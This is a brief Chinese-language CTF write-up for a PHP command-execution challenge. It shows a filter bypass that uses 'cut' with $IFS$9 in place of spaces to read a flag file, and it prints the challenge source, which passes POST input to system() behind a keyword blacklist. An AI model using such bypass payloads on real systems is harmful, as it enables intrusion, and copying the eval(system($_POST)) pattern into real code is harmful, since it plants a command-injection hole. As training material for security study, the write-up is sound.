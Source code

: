 命令执行绕过读取文件内容，常用的命令有cat,tac,less,more,head,tail,nl,tailf,od,cut......。经过测试只有cut没被过滤，其他都返回“没抓到重点”，包含空格时返回“危险”，用“$IFS$9”替换空格。post参数“a=cut$IFS$9-b$IFS$9-100$IFS$9flag.txt”得到flag
```
flag{WOw_Cut_4Nd_C4t_lo0kS_Sh49e}
```
同理可得到index.php源码
```php
<?php
	echo "POST[a] 这次我们玩过滤好了。";
	$b = $_POST['a'];
	if (strpos($b,'cut') === false && isset($b)){
		die("没抓到重点");
	}
	if (strpos($b,' ') !== false){
		die("危险");
	}
	if (strpos($b,'|') !== false){
		die("危险");
	}
	if (strpos($b,'&') !== false){
		die("危险");
	}
	if (strpos($b,';') !== false){
		die("危险");
	}
	if (strpos($b,'>') !== false){
		die("危险");
	}
	if (strpos($b,'<') !== false){
		die("危险");
	}
	if (strpos($b,'/') !== false){
		die("危险");
	}
	if (strpos($b,'ls') !== false){
		die("你挺能绕的...但不是这个意思啊...");
	}
	if (strpos($b,'cat') !== false){
		die("你挺能绕的...但不是这个意思啊...");
	}
	if (strpos($b,'rm') !== false){
		die("你挺能绕的...但不是这个意思啊...");
	}
	if (strpos($b,'whoami') !== false){
		die("你挺能绕的...但不是这个意思啊...");
	}
	if (strpos($b,'mv') !== false){
		die("你挺能绕的...但不是这个意思啊...");
	}
	if (strpos($b,'id') !== false){
		die("你挺能绕的...但不是这个意思啊...");
	}
	$c = str_replace("flag.txt","pNHYVfirTGWAIygv.txt",$b);
	eval(system($c));
?>

<!--
	eval(system($c));//read flag.txt But no cat!！！
-->
```
flag在web根目录的pNHYVfirTGWAIygv.txt文件中，直接访问也可以得到flag

